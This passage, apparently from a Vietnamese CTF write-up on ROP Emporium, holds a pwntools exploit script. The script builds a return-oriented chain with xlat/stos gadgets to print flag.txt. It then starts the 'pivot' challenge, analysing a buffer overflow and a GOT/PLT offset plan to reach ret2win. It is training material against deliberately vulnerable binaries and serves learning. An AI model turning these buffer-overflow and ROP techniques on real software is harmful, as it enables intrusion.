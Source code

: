 ```python=
call_printf = p64(0x0000000000400620)
char_flag_add = [0x004003c4, 0x00400239, 0x004003d6, 0x004003cf, 0x0040024e, 0x00400192, 0x00400246, 0x00400192]
flag = ['f', 'l', 'a', 'g', '.', 't', 'x', 't']
rw_add = 0x601100

#mov_eax = p64(0x0000000000400610)

payload = b'A'*40 
for i in range(0,8):
	if i == 0:
		temp = 0xb
	else: temp = ord(flag[i-1])
	payload += pop_rdi + p64(rw_add+i)
	payload += pop_rdx_rcx_bextr + p64(0x4000) + p64(char_flag_add[i] - 0x3ef2 - temp)
	payload += xlat
	payload += stos
	
payload += pop_rdi + p64(rw_add)
payload += call_printf

#input()
p.sendlineafter(b'> ', payload)

p.interactive()
```

# **Pivot**

### Phân tích
- Tương tự có lỗi `Buffer Overflow` ở hàm `pwnme`, chế độ bảo vệ tương tự các challenge trước
![image](https://hackmd.io/_uploads/HysRV-jVC.png)
- Chương trình cho ta 2 lần nhập, lần thứ nhất không có vấn đề gì, lần thứ 2 có lỗi `buffer overflow` khi đọc `64 byte` vào mảng `s` nhưng `s` khai báo chỉ có `32 byte`
- Gợi ý của challenge

![image](https://hackmd.io/_uploads/SJLyVWoNR.png)

-  Theo gợi ý của challenge thì nhiệm vụ của ta cần gọi hàm `ret2win()` từ `libpivot.so` để in được flag
-  Vì hàm `ret2win()` không được nhập ở đâu trong chương trình nên ta phải gọi hàm `ret2win()` bằng cách tìm ofset giữa hàm `foothold_function()` trong `libpivot.so`, vì hàm `foothold_function()` đã có trong tệp nhị phân chương trình (tuy nhiên không có trong luồng thực thi chương trình)
-  Để có được thể có được địa chỉ thực của hàm  `ret2win()` thì ta cần tìm địa chỉ thực của `foothold_function()` và cộng thêm ofset đã tính
-  Vì hàm `foothold_function()` không được gọi trong luồng thực thi chương trình nên để có được địa chỉ thực ta phải gọi hàm đó 1 lần thì địa chỉ thực của hàm sẽ được trỏ tới bởi địa chỉ `.got` của hàm 
    -  >[Tìm hiểu về got và plt](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
- Tìm địa chỉ plt của hàm `foothold_function()`
![image](https://hackmd.io/_uploads/B1_nLziNC.png)
- Tìm địa chỉ got của `foothold_function()`
![image](https://hackmd.io/_uploads/SyNVaNiNA.png)
